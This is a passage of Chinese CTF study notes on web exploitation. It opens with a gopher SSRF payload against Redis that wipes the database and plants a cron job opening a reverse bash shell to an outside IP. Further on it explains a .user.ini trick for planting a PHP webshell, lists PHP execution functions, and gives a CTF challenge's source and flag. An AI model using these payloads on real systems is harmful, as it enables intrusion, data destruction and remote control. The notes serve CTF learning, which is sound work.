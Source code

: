 3. gopher protocol (⼀键反弹Bash)  

   curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%%0d%0a......**......'  

# 文件上传

## .user.ini

PHP 会在每个目录下搜寻的文件名；如果设定为空字符串则 PHP 不会搜寻。也就是在.user.ini中如果设置了文件名，那么任意一个页面都会将该文件中的内容包含进去。
在.user.ini中输入auto_prepend_file =a.txt，这样在该目录下的所有文件都会包含a.txt的内容。

可以在a.txt中写入一句话木马等。

见ctf.show_web13。

## 



# PHP

## 常用函数

```php
phpinfo(); //显示php信息
highlight_file("index.php");  //高亮显示文件源码
print_r(); // 函数用于打印变量，以更容易理解的形式展示。
glob();  // 函数返回匹配指定模式的文件名或目录。举个例子:glob("*") 匹配任意文件 glob("*.txt")匹配以txt为后缀的文件
echo 123; //输出函数
system(); //执行shell命令，可执行多条shell
exec(); shell_exec(); //执行单条shell语句
file_get_contents(); // 支持PHP伪协议, 把整个文件读入一个字符串中。
```



1. 考察点为REQUEST变量覆盖、MD5绕过、file_get_contents写入、正则绕过。

   ```php
   include "flag.php";
   error_reporting(0);
   if($_REQUEST){
   foreach ($_REQUEST as $key => $value) {
   if(preg_match('/[a-zA-Z]/i', $value)){
   die("其实我劝你最好不要输入任何字母!");
               }
           }
       }
   
   if($_SERVER){
       if(!preg_match('/GJCTF|flag/i', $_SERVER['QUERY_STRING'])) die('不打你可能拿不到flag..');
   }
   if(isset($_GET['GJCTF'])){
       if(!(substr($_GET['GJCTF'], 32) === md5($_GET['GJCTF']))){
           die('日爆md5!!!!!!');
       }else{
       $getflag = file_get_contents($_GET['flag']);
       if($getflag === 'get_flag'){
       include 'flag.php';
       echo $flag;
       }else die('差一点哦!');
       }
   }
   GJCTF{You_A4e_@_Good_Hacker}
   ```
